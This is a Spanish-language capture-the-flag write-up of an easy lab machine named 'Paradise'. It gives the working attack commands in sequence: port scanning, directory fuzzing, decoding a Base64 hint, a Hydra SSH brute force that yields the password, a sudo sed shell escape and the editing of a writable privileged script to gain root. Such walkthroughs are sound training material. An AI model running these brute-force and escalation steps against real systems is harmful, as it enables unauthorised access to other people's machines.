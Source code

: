 # Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.
![Logo](Logo.png)
---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```

![Despliegue](/Imagenes/Despliegue.jpeg)

Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```

![Ping](/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos abiertos](/Imagenes/Puerto.jpeg)

Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Imagenes/Servicios.jpeg)

---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:

![Página principal](/Imagenes/Pagina.jpeg)

Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](/Imagenes/Gobuster.jpeg)

Estos fueron los directorios y archivos detectados:

* `/index.html`
  ![index.html](/Imagenes/indexhtml.jpeg)

* `/img`
  ![img](/Imagenes/img.jpeg)

* `/login.php`
  ![login.php](/Imagenes/loginphp.jpeg)

* `/galery.html`
  ![galery.html](/Imagenes/galeryhtml.jpeg)

* `/booking.html`
  ![booking.html](/Imagenes/booking.jpeg)

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```

![Base64 encontrado](/Imagenes/base64.jpeg)

Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```

![Decodificación](/Imagenes/descodificar.jpeg)

Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```

![Directorio secreto](/Imagenes/estoesunsecreto.jpeg)

Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.

![Usuario lucas](/Imagenes/lucas.jpeg)

---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```

![Hydra resultado](/Imagenes/hydra.jpeg)

---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```

![SSH acceso](/Imagenes/ssh.jpeg)

Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```

![Escalada a andy](/Imagenes/escala.jpeg)

---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo editamos y luego lo ejecutamos, lo que nos otorgó acceso como root.

![Escalada final](/Imagenes/escala2.jpeg)

---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
